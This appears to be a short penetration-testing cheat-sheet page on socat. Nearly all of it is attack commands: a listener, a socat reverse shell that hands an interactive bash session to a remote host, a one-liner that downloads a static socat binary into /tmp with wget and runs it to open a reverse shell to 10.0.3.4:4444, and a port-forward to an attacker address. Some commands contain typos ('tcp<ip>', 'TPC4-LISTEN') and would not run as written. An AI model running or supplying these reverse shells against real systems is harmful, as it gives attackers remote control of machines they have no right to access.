

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Socat

<pre class="language-bash"><code class="lang-bash"><strong># set up listener
</strong><strong>socat file:'tty',raw,echo=0 tcp-listen:4444
</strong></code></pre>

```bash
# reverse shell command
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp<ip>:4444
```

Download and execute `socat`.


```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```


## Port Forwarding

An alternative if SSH is not available and the socat binary can be transferred to the target. The `fork` option creates a new process for each connection received, thus, it is possible to handle multiple connection without closing.

```
socat TPC4-LISTEN:<port-on-target>,fork TCP4:<attacker-IP>:<attacker-port>
```

<figure><figcaption></figcaption></figure>

## Resources










